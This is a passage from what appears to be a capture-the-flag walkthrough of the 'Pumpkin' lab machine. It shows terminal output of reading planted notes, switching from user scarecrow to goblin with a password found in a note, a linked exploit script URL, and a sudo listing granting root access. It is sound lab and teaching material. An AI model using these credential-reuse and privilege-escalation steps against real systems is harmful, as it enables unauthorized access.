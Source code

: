 ~~~
-rw-r--r-- 1 scarecrow scarecrow 3637 Jun 11  2019 .bashrc
-rw-r--r-- 1 root      root       167 Jun 11  2019 note.txt
-rw-r--r-- 1 scarecrow scarecrow  675 Jun 11  2019 .profile
scarecrow@Pumpkin:~$ cat note.txt 

Oops!!! I just forgot; keys to the garden are with LordPumpkin(ROOT user)! 
Reach out to goblin and share this "Y0n$M4sy3D1t" to secretly get keys from LordPumpkin.

~~~

## Lateral move (scarecrow -> goblin)

Let's switch to `goblin`:

~~~
scarecrow@Pumpkin:~$ su goblin
Password: 
goblin@Pumpkin:/home/scarecrow$ cd
goblin@Pumpkin:~$ ls -la
total 28
drwx------ 2 goblin goblin 4096 Jun 13  2019 .
drwxr-xr-x 5 root   root   4096 Jun 11  2019 ..
-rw------- 1 goblin goblin   32 Jun 11  2019 .bash_history
-rw-r--r-- 1 goblin goblin  231 Jun 11  2019 .bash_logout
-rw-r--r-- 1 goblin goblin 3637 Jun 11  2019 .bashrc
-rw-r--r-- 1 root   root    328 Jun 11  2019 note
-rw-r--r-- 1 goblin goblin  675 Jun 11  2019 .profile
goblin@Pumpkin:~$ cat note 

Hello Friend! I heard that you are looking for PumpkinGarden key. 
But Key to the garden will be with LordPumpkin(ROOT user), don't worry, I know where LordPumpkin had placed the Key.
You can reach there through my backyard.

Here is the key to my backyard
https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh

goblin@Pumpkin:~$ 
~~~

The user can connect as root:

~~~
goblin@Pumpkin:~$ sudo -l
[sudo] password for goblin: 
Matching Defaults entries for goblin on Pumpkin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goblin may run the following commands on Pumpkin:
    (root) ALL, !/bin/su
~~~
